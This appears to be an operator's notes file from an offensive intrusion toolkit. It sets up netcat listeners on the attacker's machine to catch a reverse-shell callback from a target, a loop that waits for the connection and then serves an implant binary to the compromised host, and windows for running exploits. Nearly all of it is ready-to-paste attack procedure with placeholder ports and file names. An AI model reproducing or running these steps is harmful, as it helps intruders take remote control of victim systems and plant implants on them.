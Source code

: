
##############################################
###   LOCAL LISTENER FOR SHELL CALLBACK
##############################################
## SET UP LOCAL LISTENER FOR INITIAL SHELL CALLBCK IN SCRIPTED WINDOW.
##
## scripme gives you a scripted window if you need another
scripme

## then paste this into it
nc -vv -l -p NETCAT_PORT1


##############################################
###   LOCAL ALARM FOR CALLBACK SESSION THEN
##    LOCAL LISTENER FOR BINARY UPLOAD CALLBACK
##############################################
## SET UP LOCAL CALLBACK IN SCRIPTED WINDOW. 
## ENTIRE block here can be pasted (once NETCAT_PORT1 and NOPENBINARY
## are set accordingly).

## scripme gives you a scripted window if you need another
scripme

## then paste this ENTIRE BLOCK into it
while [ 1 ] ; do 
   echo this repeats after netcat below exits
   while [ 1 ] ; do
      netstat -an | grep NETCAT_PORT1.*ESTAB && break
      sleep 3
   done
   sleep 1 ; echo -e "\aINCOMING" ; sleep 1 ; echo -e "\aINCOMING" ;
   sleep 1 ; echo -e "\aINCOMING" ; sleep 1 ; echo -e "\aINCOMING"
   nc -vv -l -p NETCAT_PORT1 < /current/up/NOPENBINARY
   sleep 1
   echo "Use ^C to get out of this loop"
done


##############################################
###   TWO LOCAL EXPLOIT WINDOWS (scripme scripts these for you)
##############################################
## This makes two nicely sized scripted windows for the exploits
scripme -X"-geometry 102x24+652-46"
scripme -X"-geometry 102x24+0-46"
